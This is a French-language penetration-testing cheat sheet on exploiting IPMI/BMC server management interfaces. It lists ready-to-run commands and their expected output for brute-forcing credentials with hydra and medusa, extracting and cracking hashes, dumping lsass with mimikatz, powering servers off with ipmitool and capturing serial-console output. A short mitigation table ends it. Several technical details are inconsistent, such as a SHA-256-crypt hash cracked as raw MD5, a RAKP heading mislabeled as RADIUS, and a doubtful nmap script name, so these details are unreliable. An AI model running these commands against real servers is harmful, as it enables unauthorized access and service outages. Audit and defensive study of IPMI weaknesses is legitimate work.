

Cette documentation détaille les vecteurs d'attaque et les méthodes d'exploitation du protocole **IPMI** (Intelligent Platform Management Interface) dans le cadre d'un audit de sécurité.



## Détection du Service IPMI

Le protocole **IPMI** communique via le port **623/UDP** avec le **Baseboard Management Controller (BMC)**.

### Scanner les ports IPMI avec Nmap

```bash
nmap -p 623,664 --script=ipmi-version target.com
```

Sortie attendue :

```text
623/udp open  ipmi
664/udp open  asf-rmcp
```

> [!warning]
> L'accès au port **623/UDP** est nécessaire, souvent bloqué par les pare-feu périmétriques.

## Analyse des risques de sécurité réseau (VLAN segmentation)

L'exposition du BMC sur un réseau routable est une faille critique. Le trafic IPMI doit être confiné dans un réseau de gestion dédié (OOB Management).

| Risque | Impact |
| :--- | :--- |
| Accès direct au BMC | Contournement du système d'exploitation hôte |
| Absence de segmentation | Mouvement latéral depuis le réseau utilisateur vers le BMC |
| Attaques Man-in-the-Middle | Interception des identifiants IPMI en clair |

> [!info]
> Référez-vous à la note **Network Segmentation** pour les stratégies de cloisonnement des interfaces de gestion.

## Vérification de l’Authentification

La vérification consiste à tester la présence d'identifiants par défaut ou de configurations permissives.

### Lister les utilisateurs IPMI avec Nmap

```bash
nmap -p 623 --script=ipmi-brute target.com
```

Sortie attendue :

```text
| ipmi-brute: 
|   Accounts found:
|     admin:admin
```

## Bruteforce des Identifiants IPMI

En l'absence d'identifiants connus, le bruteforce est utilisé pour identifier des comptes valides.

### Avec Hydra

```bash
hydra -L users.txt -P passwords.txt target.com ipmi
```

Sortie attendue :

```text
[623][ipmi] host: target.com   login: root   password: changeme
```

### Avec Medusa

```bash
medusa -h target.com -U users.txt -P passwords.txt -M ipmi
```

## Exploitation d'une Authentification Faible

L'absence de chiffrement sur certaines sessions permet une interaction directe avec le matériel.

### Exploitation avec ipmitool

```bash
ipmitool -I lanplus -H target.com -U admin -P password chassis power status
```

Sortie attendue :

```text
Chassis Power is ON
```

> [!tip]
> L'utilisation de **-I lanplus** est recommandée pour forcer le chiffrement si supporté par le BMC.

## Détails sur l'exploitation de RAKP (Remote Authentication Dial-In User Service)

Le protocole RAKP (Remote Authenticated Key-Exchange Protocol) est vulnérable à l'extraction de hashs sans authentification préalable. Le BMC répond à une requête d'initialisation en envoyant le hash de l'utilisateur demandé.

```bash
ipmitool -I lanplus -H target.com -U admin -L OPERATOR -P password sol activate
```

Si le chiffrement est désactivé, les données transitent en clair. L'analyse du trafic RAKP permet de capturer le challenge/réponse pour effectuer un crack hors-ligne.

## Exploitation de l'Authentification Hash Replay

Certains serveurs acceptent des hashs **MD5** pour l'authentification, permettant des attaques de type **Pass-the-Hash**.

### Extraction du Hash IPMI

```bash
nmap --script=ipmi-hash target.com
```

Sortie attendue :

```text
Hash found: admin:$5$76f0b934bffa$EXAMPLEHASH
```

### Craquer le Hash avec John the Ripper

```bash
john --format=raw-md5 --wordlist=rockyou.txt hashes.txt
```

Sortie attendue :

```text
admin:SuperSecure123
```

## Extraction de mots de passe via dump de mémoire (ex: mimikatz/lsass si applicable)

Si l'accès au système d'exploitation hôte est obtenu, il est possible d'extraire les identifiants IPMI stockés en mémoire ou dans les fichiers de configuration du service de gestion (ex: `ipmiutil` ou agents constructeurs).

```bash
# Utilisation de mimikatz pour dumper lsass
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

> [!info]
> Voir la note **Privilege Escalation** pour les techniques de dump mémoire.

## Contrôle Total du Serveur

Une fois l'authentification réussie, les privilèges permettent une gestion complète du matériel.

### Contrôler l'alimentation du serveur

```bash
ipmitool -I lanplus -H target.com -U admin -P password power off
```

> [!danger]
> L'exécution de **power off** peut causer une interruption de service critique en environnement de production.

### Récupérer les logs système

```bash
ipmitool -I lanplus -H target.com -U admin -P password sel list
```

### Obtenir l'accès à la console distante

```bash
ipmitool -I lanplus -H target.com -U admin -P password sol activate
```

## Post-exploitation : exfiltration de données via console série (SOL)

La fonction **Serial Over LAN (SOL)** permet de rediriger la sortie de la console série du serveur vers une session distante. Cela permet d'intercepter les messages de boot, les accès root ou les configurations réseau.

```bash
# Activer la console série
ipmitool -I lanplus -H target.com -U admin -P password sol activate

# Capturer la sortie vers un fichier local
ipmitool -I lanplus -H target.com -U admin -P password sol activate > exfiltration.log
```

## Mitigation des Risques IPMI

| Vulnérabilité | Solution |
| :--- | :--- |
| Authentification par défaut | Changer immédiatement les identifiants admin |
| Bruteforce possible | Implémenter un verrouillage de compte |
| Hash Replay Attack | Désactiver **RMCP+** sans chiffrement |
| Pas de chiffrement | Forcer l'utilisation de **SSL/TLS** |
| Commandes critiques accessibles | Restreindre l'accès à l’IPMI depuis un VLAN sécurisé |

> [!info]
> Le protocole **IPMI** est souvent considéré comme non sécurisé par défaut ; isoler le trafic BMC sur un réseau de gestion dédié est une pratique recommandée dans le cadre de la **Network Segmentation**.

Ces techniques s'inscrivent dans les phases de **Nmap Enumeration**, **Password Cracking** et d'élévation de privilèges (**Privilege Escalation**).